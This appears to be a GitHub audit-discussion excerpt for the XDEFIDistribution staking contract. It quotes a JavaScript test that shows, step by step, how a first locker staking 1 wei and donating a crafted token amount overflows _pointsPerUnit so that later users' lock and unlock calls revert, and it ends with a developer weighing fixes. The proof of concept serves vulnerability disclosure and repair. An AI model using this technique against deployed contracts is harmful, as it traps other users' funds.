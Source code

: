 > describe("XDEFIDistribution", () => {
>     it("Can overflow _pointsPerUnit", async () => {
>         const [god, alice, bob] = await ethers.getSigners();
> 
>         const XDEFI = await (await (await ethers.getContractFactory("XDEFI")).deploy("XDEFI", "XDEFI", totalSupply)).deployed();
>         const XDEFIDistribution = await (await (await ethers.getContractFactory("XDEFIDistribution")).deploy(XDEFI.address, "https://www.xdefi.io/nfts/", 0)).deployed();
> 
>         // Give each account 2,000,000 XDEFI
>         await (await XDEFI.transfer(alice.address, toWei(2_000_000))).wait();
>         await (await XDEFI.transfer(bob.address, toWei(2_000_000))).wait();
> 
>         // bonusMultiplierOf[30 days] = 100
>         await (await XDEFIDistribution.setLockPeriods([2592000], [100])).wait();
> 
>         // 1. Alice lock() 1 wei of XDEFI for 30 days as the first user of the contract. Got 1 units, and totalUnits now is 1;
>         await (await XDEFI.connect(alice).approve(XDEFIDistribution.address, 1)).wait();
>         await (await XDEFIDistribution.connect(alice).lock(1, 2592000, alice.address)).wait();
>         expect(await XDEFIDistribution.balanceOf(alice.address)).to.equal('1');
>         const nft1 = (await XDEFIDistribution.tokenOfOwnerByIndex(alice.address, 0)).toString();
>         expect((await XDEFIDistribution.positionOf(nft1)).units).to.equal(1);
> 
>         // 2. Alice sends 170141183460469 wei of XDEFI to the contract and calls updateDistribution()
>         await (await XDEFI.connect(alice).transfer(XDEFIDistribution.address, 170141183460469)).wait();
>         await (await XDEFIDistribution.connect(alice).updateDistribution()).wait();
> 
>         // 3. Bob tries to lock() 1,100,000 * 1e18 of XDEFI for 30 days, the tx will fail, as _pointsPerUnit * units overflows
>         await (await XDEFI.connect(bob).approve(XDEFIDistribution.address, toWei(1_100_000))).wait();
>         await expect(XDEFIDistribution.connect(bob).lock(toWei(1_100_000), 2592000, bob.address)).to.be.revertedWith("_toInt256Safe failed");
> 
>         // 4. Bob lock() 1,000,000 * 1e18 of XDEFI for 30 days
>         await (await XDEFI.connect(bob).approve(XDEFIDistribution.address, toWei(1_000_000))).wait();
>         await (await XDEFIDistribution.connect(bob).lock(toWei(1_000_000), 2592000, bob.address)).wait();
>         expect(await XDEFIDistribution.balanceOf(bob.address)).to.equal('1');
>         const nft2 = (await XDEFIDistribution.tokenOfOwnerByIndex(bob.address, 0)).toString();
>         expect((await XDEFIDistribution.positionOf(nft2)).units).to.equal(toWei(1_000_000));
> 
>         // 5. The rewarder sends 250,000 * 1e18 of XDEFI to the contract and calls updateDistribution()
>         await (await XDEFI.transfer(XDEFIDistribution.address, toWei(250_000))).wait();
>         await (await XDEFIDistribution.updateDistribution()).wait();
> 
>         // 6. 30 days later, Bob tries to call unlock(), the tx will fail, as _pointsPerUnit * units overflows.
>         await hre.ethers.provider.send('evm_increaseTime', [2592000]);
>         await expect(XDEFIDistribution.connect(bob).unlock(nft2, bob.address)).to.be.revertedWith("_toInt256Safe failed");
>     });
> });
> ```
> 
> While I do like the suggestion to to `totalUnits = 100_000_000;` in the constructor, it will result "uneven" numbers due to the `totalUnits` offset. I wonder if I can resolve this but just reducing `_pointsMultiplier` to `uint256(2**96)` as per https://github.com/ethereum/EIPs/issues/1726#issuecomment-472352728.